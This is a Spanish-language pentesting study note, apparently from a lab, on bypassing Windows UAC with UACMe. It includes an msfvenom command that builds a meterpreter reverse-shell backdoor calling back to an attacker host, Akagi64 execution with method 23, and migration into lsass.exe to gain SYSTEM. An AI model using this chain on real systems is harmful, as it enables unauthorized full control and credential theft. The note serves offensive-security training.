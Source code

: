 21-03-2025 20:43
Status: #idea
Tags: [[Windows Privilege Escalation]]

- [[#Uso de UACMe|Uso de UACMe]]

# Bypassing UAC (UACMe)

UAC es una herramienta de Windows que permite solicitar permisos del administrador para realizar ciertas acciones.

Básicamente, permite indicarle a Windows que el usuario está seguro de que quiere ejecutar el programa.

Para conseguir saltarnos UAC, necesitaremos acceso a una cuenta de usuario que esté en el grupo de local administrators.

Como en la elevación de permisos, las técnicas van a cambiar dependiendo de la versión que usemos de Windows.

Para verificar que usuarios hay en la máquina, y cuales forman parte del grupo de administradores podremos usar estos comandos en un shell:

```shell
net user
net localgroup administrators
```

Si estamos en un meterpreter, habrá que spawnear una shell antes, con el comando **shell**.

Para verificar que UAC está funcionando correctamente, podremos intentar cambiar la contraseña de algún admin, por ejemplo:

```shell
net user admin password123
```

## Uso de UACMe

[UACMe](https://github.com/hfiref0x/UACME) es una herramienta que nos ayudará a saltarnos esta comprobación de Windows.

Tendremos que generar un payload con msfvenom:

```shell
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.10.10 LPORT=1234 -f exe > backdoor.exe
```

Posteriormente, tendremos que crear un listener, para lo que usaremos **multi/handler**, poniendo la payload **windows/meterpreter/reverse_tcp**, poniendo el LHOST y LPORT como siempre.

Si no existe el directorio Temp, tendremos que navegar a C: y crearlo, y posteriormente, subir en la máquina que tenemos el meterpreter nuestro backdoor.exe con el comando upload, además del Akagi64 o Akagi32 de UACMe.

```shell
upload backdoor.exe
upload Akagi64.exe
```

Para este lab, usaremos la key 23, pero esto, si miras la documentación, verás que puede variar dependiendo de lo que queramos hacer.

```shell
.\Akagi64.exe 23 C:\Temp\backdoor.exe
```

Esto conseguirá que se ejecute nuestro backdoor.exe con privilegios elevados, consiguiendo así una sesión de meterpreter con permisos elevados.

Si hacemos ahora **getprivs**, veremos como tenemos más privilegios que antes.

Esto nos permitirá migrar a cualquier otro proceso, por ejemplo, **lsass.exe** que tenga permisos de NT AUTHORITY\SYSTEM con el comando migrate especificando el PID (Process ID):

```shell
ps
migrate 688
```

Si ahora volvemos a hacer **getuid**, veremos como somos NT AUTHORITY\SYSTEM.

---
# Backlinks

```dataview
LIST
FROM [[]]
SORT file.name ASC
```
